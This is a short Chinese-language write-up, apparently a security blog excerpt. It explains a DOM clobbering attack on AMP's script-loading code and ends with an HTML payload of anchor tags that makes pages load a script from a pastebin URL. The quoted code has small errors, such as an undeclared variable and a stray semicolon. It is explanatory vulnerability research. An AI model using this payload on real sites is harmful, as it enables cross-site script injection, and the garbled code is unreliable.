下面是对代码解混淆的结果：

```
var script = window.document.createElement("script");
script.async = false;

var loc;
if (AMP_MODE.test &amp;&amp; window.testLocation) `{`
    loc = window.testLocation
`}` else `{`
    loc = window.location;
`}`

if (AMP_MODE.localDev) `{`
    loc = loc.protocol + "//" + loc.host + "/dist"
`}` else `{`
    loc = "https://cdn.ampproject.org";
`}`

var singlePass = AMP_MODE.singlePassType ? AMP_MODE.singlePassType + "/" : "";
b.src = loc + "/rtv/" + AMP_MODE.rtvVersion; + "/" + singlePass + "v0/" + pluginName + ".js";

document.head.appendChild(b);
```

在第1行，代码创建了一个新的脚本元素。然后检查`AMP_MODE.test`和`window.testLocation`都是真实的。如果是，`AMP_MODE.localDev`也是真实的，然后使用`window.testLocation`作为生成脚本URL的基础。然后第17和18行，将一些特征拼接起来形成完整的URL。由于`DOM Clobbering`，就可以完全控制整个URL。假设`AMP_MODE.localDev`和`AMP_MODE.test`是真的，那么代码就可以简化如下：

```
var script = window.document.createElement("script");
script.async = false;

b.src = window.testLocation.protocol + "//" + 
        window.testLocation.host + "/dist/rtv/" + 
        AMP_MODE.rtvVersion; + "/" + 
        (AMP_MODE.singlePassType ? AMP_MODE.singlePassType + "/" : "") + 
        "v0/" + pluginName + ".js";

document.head.appendChild(b);
```

只需要加载`window.testLocation.protocol`。然后是最后的payload：

```
&lt;!-- We need to make AMP_MODE.localDev and AMP_MODE.test truthy--&gt;
&lt;a id="AMP_MODE"&gt;&lt;/a&gt;
&lt;a id="AMP_MODE" name="localDev"&gt;&lt;/a&gt;
&lt;a id="AMP_MODE" name="test"&gt;&lt;/a&gt;

&lt;!-- window.testLocation.protocol is a base for the URL --&gt;
&lt;a id="testLocation"&gt;&lt;/a&gt;
&lt;a id="testLocation" name="protocol" 
   href="https://pastebin.com/raw/0tn8z0rG#"&gt;&lt;/a&gt;
```
